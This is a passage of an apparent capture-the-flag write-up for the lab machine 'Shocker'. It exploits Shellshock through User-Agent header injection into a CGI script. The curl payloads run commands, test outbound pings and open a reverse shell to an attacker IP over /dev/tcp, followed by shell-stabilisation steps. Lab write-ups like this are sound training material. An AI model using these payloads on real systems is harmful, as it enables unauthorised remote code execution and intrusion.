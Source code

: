 If I search the Internet for **"shellshock attack how attackers"**, there is a **Shellshock Attack** research that explains in detail the vulnerability, **[Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock){:target="_blank"}**.

```bash
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh 2>/dev/null| grep 'VULNERABLE'
curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh 2>/dev/null| grep 'VULNERABLE'

curl -H 'User-Agent: () { :; }; echo; whoami' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/whoami' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/id' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/hostname' http://10.10.10.56/cgi-bin/user.sh

tcpdump -i tun0 icmp -n
curl -H 'User-Agent: () { :; }; echo; /usr/bin/ping -c 1 10.10.14.15' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/ping "-c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; ping "-c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/bash "/usr/bin/ping -c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /usr/bin/bash "ping -c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /bin/bash "ping -c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "ping -c 1 10.10.14.15"' http://10.10.10.56/cgi-bin/user.sh

nc -nlvp 443
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >&/dev/tcp/10.10.14.15/443 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I

script /dev/null -c bash        # [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

id
groups
```

<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_26.png" width="100%" style="margin: 0 auto;display: block